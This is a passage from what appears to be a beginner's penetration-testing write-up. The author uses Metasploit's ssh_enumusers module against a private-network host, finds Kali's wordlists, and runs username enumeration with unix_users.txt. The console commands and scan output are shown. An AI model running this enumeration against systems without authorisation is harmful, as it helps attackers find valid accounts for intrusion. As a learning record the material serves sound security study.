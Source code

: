 ``` sh
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax '[file:<path>](file://%3cpath%3e)'
   RPORT        22               yes       The target port
   THREADS      1                yes       The number of concurrent threads (max one per host)
   THRESHOLD    10               yes       Amount of seconds needed before a user is considered found (timing attack only)
   USERNAME                      no        Single username to test (username spray)
   USER_FILE                     no        File containing usernames, one per line

Auxiliary action:

   Name              Description
   ----              -----------
   Malformed Packet  Use a malformed packet

msf5 auxiliary(scanner/ssh/ssh_enumusers) > set rhosts 192.168.86.154
rhosts => 192.168.86.154
msf5 auxiliary(scanner/ssh/ssh_enumusers) > exploit

[*] 192.168.86.154:22 - SSH - Using malformed packet technique
[-] Please populate USERNAME or USER_FILE
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Well you already guessed it, I have no idea where to find the username file. I know Kali already comes with word lists, but I don't know where they live. Back to Google.

Below are the exact steps I took to navigate to **/usr/share/wordlists/metasploit#**

``` sh
(base) root@kali:/# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
(base) root@kali:/# cd usr
(base) root@kali:/usr# ls
bin  games  include  lib  lib32  lib64  libexec  libx32  local  sbin  share  src
(base) root@kali:/usr# cd share/
(base) root@kali:/usr/share# cd wordlists/                                              (base) root@kali:/usr/share/wordlists# ls                                               
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz                                       (base) root@kali:/usr/share/wordlists# cd metasploit
(base) root@kali:/usr/share/wordlists/metasploit# ls
```

Now that we found the word lists, which to use? Again, I am not sure, let's just try unix_users.txt. Below are the steps to add the word list into the metasploit payload.

``` sh
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set user_file /usr/share/wordlists/metasploit/unix_users.txt
user_file => /usr/share/wordlists/metasploit/unix_users.txt
msf5 auxiliary(scanner/ssh/ssh_enumusers) > exploit

[*] 192.168.86.154:22 - SSH - Using malformed packet technique
[*] 192.168.86.154:22 - SSH - Starting scan
[-] 192.168.86.154:22 - SSH - User '4Dgifts' not found
[-] 192.168.86.154:22 - SSH - User 'EZsetup' on could not connect
[-] 192.168.86.154:22 - SSH - User 'OutOfBox' on could not connect
[-] 192.168.86.154:22 - SSH - User 'ROOT' on could not connect
[-] 192.168.86.154:22 - SSH - User 'adm' on could not connect
[-] 192.168.86.154:22 - SSH - User 'admin' on could not connect
[-] 192.168.86.154:22 - SSH - User 'administrator' on could not connect
[-] 192.168.86.154:22 - SSH - User 'anon' on could not connect
[-] 192.168.86.154:22 - SSH - User 'auditor' on could not connect
```